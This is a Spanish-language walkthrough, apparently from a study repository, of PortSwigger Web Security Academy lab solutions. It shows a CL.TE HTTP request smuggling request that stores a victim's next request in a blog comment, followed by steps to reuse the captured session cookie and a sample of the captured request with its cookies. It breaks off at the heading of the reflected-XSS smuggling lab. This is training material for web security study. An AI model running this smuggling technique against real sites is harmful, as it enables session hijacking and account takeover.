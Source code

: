 ```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 265
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 777
Cookie: session=COOKIE-SESSION-VALUE

csrf=CSRF-TOKEN&postId=6&name=asd&email=asd@email.com&website=&comment=
```

3. Dirigirse a LABID.web-security-academy.net/post?postId=6 (o el postId que se haya ingresado en la request del paso 2).
4. Si en lugar de ver el comentario de la víctima en el post se obtiene un internal server error, repetir el paso 2 y 3 hasta que aparezca el comentario (esto se debe a que PortSwigger simula que la víctima navega por el sitio de forma intermitente).
5. Copiar el valor de la cookie de sesión del comentario.
6. Iniciar sesión con credenciales inventadas, interceptar la request y reemplazar la cookie de sesión con la obtenida del comentario de la víctima.

#### Solución encontrada:

```
GET / HTTP/1.1
Host: ac721f751e1949f880d148b3002500b5.web-security-academy.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US
Cookie: victim-fingerprint=x0I5pEGy04Dgy8e20sThcT1WS83zPPeC; secret=7Kwj9ztbTjKb7ir6vhoOtLq5S7XwR7WQ; session=4VUfBbaKXwzTjsMDAzgC8ecnDQhISoRV
```

### [Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

#### Solución:

Enviar la siguiente request:
